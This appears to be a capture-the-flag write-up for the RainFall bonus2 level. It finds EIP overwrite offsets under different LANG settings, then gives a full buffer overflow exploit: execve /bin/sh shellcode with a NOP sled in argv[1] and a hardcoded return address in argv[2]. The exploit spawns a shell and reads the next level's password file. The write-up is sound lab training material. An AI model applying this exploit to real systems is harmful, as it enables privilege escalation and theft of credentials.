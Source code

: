 `if LANG not set in env , the global variable Language is 0 and our buffer will get concat with (Hello ), but thats not enough to overwrite EIP`

----

* LANG=fi
```shell
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ gdb ./bonus2

(gdb) run $(python -c 'print "B" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "B" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Hyvää päivää BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? () // offset : 18
(gdb)
```
 
>if LANG is set to "fi" , the global variable Language is 1 and our buffer will get concat with (Hyvää päivää ), but thats enough to overwrite EIP at the offset of 18

----

* LANG=nl
```shell
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ gdb ./bonus2

(gdb) run $(python -c 'print "B" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "B" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Goedemiddag! BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? () // ofset : 23
(gdb)

```
>if LANG is set to "nl" , the global variable Language is 1 and our buffer will get concat with (Goedemiddag! ), but thats enough to overwrite EIP at the offset of 23



---
### Solution :
- inject the shellcode into argv[1]
- put the address of the buffer in the overflow offset of argv[2]
- argv[1] = [shellcode(21) + suffix(19)] total 40 length
- argv[2] = [prefix(18) + buffer address (0xbffff650) in little endian (4)]


```shell
bonus2@RainFall:~$ /home/user/bonus2/bonus2 $(python -c 'print "\x90" * 19 +"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print "B" * 18 + "\xbf\xff\xf6\x50"[::-1] ' )
Hyvää päivää �������������������j
                                 X�Rh//shh/bin��1�̀BBBBBBBBBBBBBBBBBBP���
$ whoami
bonus3
$ pwd
/home/user/bonus2
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$
```
